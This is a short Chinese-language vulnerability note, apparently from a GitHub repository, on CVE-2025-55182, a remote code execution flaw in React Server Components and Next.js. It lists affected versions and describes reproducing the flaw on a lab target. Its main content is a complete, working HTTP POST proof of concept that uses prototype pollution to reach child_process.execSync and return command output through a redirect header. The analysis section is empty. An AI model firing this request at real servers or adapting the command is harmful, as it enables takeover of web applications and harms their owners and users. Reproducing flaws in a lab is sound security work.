


# CVE-2025-55182 React/Next.js RCE

## 影响版本

- React 影响版本 == 19.0.0
- React 影响版本 == 19.0.1
- React 影响版本 == 19.1.0
- React 影响版本 == 19.2.0
- react-server-dom-webpack包 影响版本 == 19.0.0、19.0.1、19.1.0、19.1.1、19.2.0
- react-server-dom-parcel包 影响版本 == 19.0.0、19.0.1、19.1.0、19.1.1、19.2.0
- react-server-dom-turbopack包 影响版本 == 19.0.0、19.0.1、19.1.0、19.1.1、19.2.0
- Next.js 影响版本 >= 14.3.0-canary.77
- Next.js 15.0.0 <= 影响版本 < 15.0.5
- Next.js 15.1.0 <= 影响版本 < 15.1.9
- Next.js 15.2.0 <= 影响版本 < 15.2.6
- Next.js 15.3.0 <= 影响版本 < 15.3.6
- Next.js 15.4.0 <= 影响版本 < 15.4.8
- Next.js 15.5.0 <= 影响版本 < 15.5.7
- Next.js 16.0.0 <= 影响版本 < 16.0.7
- Dify 1.1.2 <= 影响版本 < 1.10.1-fix.1

## 复现

靶场采用Vulnhub搭建

访问靶场



抓包后使用poc，execSync（）函数中为执行命令

poc：

```
POST / HTTP/1.1
Host: 192.168.81.42:3000
Next-Action: x
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryx8jO2oVc6SWP3Sad
Content-Length: 756

------WebKitFormBoundaryx8jO2oVc6SWP3Sad
Content-Disposition: form-data; name="0"

{
  "then": "$1:__proto__:then",
  "status": "resolved_model",
  "reason": -1,
  "value": "{\"then\":\"$B1337\"}",
  "_response": {
    "_prefix": "var res=process.mainModule.require('child_process').execSync('id').toString().trim();;throw Object.assign(new Error('NEXT_REDIRECT'),{digest: `NEXT_REDIRECT;push;/login?a=${res};307;`});",
    "_chunks": "$Q2",
    "_formData": {
      "get": "$1:constructor:constructor"
    }
  }
}
------WebKitFormBoundaryx8jO2oVc6SWP3Sad
Content-Disposition: form-data; name="1"

"$@0"
------WebKitFormBoundaryx8jO2oVc6SWP3Sad
Content-Disposition: form-data; name="2"

[]
------WebKitFormBoundaryx8jO2oVc6SWP3Sad--
```



## 漏洞研究

有待补充
